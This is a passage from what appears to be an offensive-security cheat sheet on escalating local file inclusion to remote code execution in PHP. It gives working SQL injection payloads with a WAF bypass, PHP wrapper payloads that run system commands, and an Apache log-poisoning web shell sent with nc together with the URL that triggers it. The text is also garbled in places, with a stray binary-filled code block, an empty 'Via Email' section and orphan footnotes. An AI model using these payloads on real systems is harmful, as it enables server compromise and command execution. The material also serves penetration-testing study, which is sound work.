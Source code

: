 ```bash
<?php phpinfo(); ?>  �@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�
```

#### SQL Injection → LFI → RCE

Reference: https://infosecwriteups.com/sql-injection-to-lfi-to-rce-536bed29a862

1. File at https://customer.com/php/load.php
```php
Warning: include (/php/.php) failed to open stream: no such file
...
```

2. Fuzzing parameters a MySQL error it thrown when `page=` is passed to the file. The parameter results vulnerable to [SQL Injection](SQL%20Injection.md) and the payload returned the contents of `analytics.php`: `https://customer.com/php/load.php?page=’ or ‘’=’`
3. UNION BASED SQL Injection (with MOD security bypass) revealing some parameters were used to include some files: `https://customer.com/php/load.php?page=’ /*!50000union*/ select 1,2,3,4,5,6,7,8,9-- -`
4. Using PHP wrappers to include arbitrary files: `https://customer.com/php/load.php?page=’ /*!50000union*/ select 1,2,3,4,5,’../index’,7,8,’php://filter/convert.base64-encode/resource=.’ -- -`
5. [Remote Code Execution (RCE)](Remote%20Code%20Execution%20(RCE).md) using PHP wrappers: `https://customer.com/php/load.php?page=' /*!50000union*/ select 1,2,3,4,5,6,7,8,’data://text/plain,<?php $a=”sy”;$b=”stem”;$c=$a.$b; $c(“uname -a”);?>’ -- -`


### Contaminating Log Files - from LFI to RCE

It is possible to **contaminate various service's log** in order to **cause them to contain PHP code**, which once included will be execute.

#### Apache log file

Inject the payload within Apache logs (`/var/log/apache2/access.log`):

```bash
root@kali:# nc -nv 192.168.1.66 80
(UNKNOWN) [192.168.1.66] 80 (http) open
<?php echo shell_exec($_GET['cmd']); ?>

HTTP/1.1 400 Bad Request
```

Note that **if you use double quotes** for the shell instead of **simple quotes**, the double quotes will be modified for the string "***quote;***", **PHP will throw an error** there and **nothing else will be executed**.

Final payload to include the shell:

```bash
http://192.168.1.66/funcion.php?name=a&comment=b&cmd=ipconfig&VULN=../../../../../../../xampp/apache/logs/access.log%00
```

#### Via Email


[^1]: https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d
[^pearcmd]: [Clever use of `pearcmd.php`](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp)
[^video]: [Website Vulnerabilities to Fully Hacked Server](https://www.youtube.com/watch?v=yq2rq50IMSQ&ab_channel=JohnHammond)
[^2]: [PHP FIlter Chains: File Read From Error-based oracle](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle); www.synacktiv.com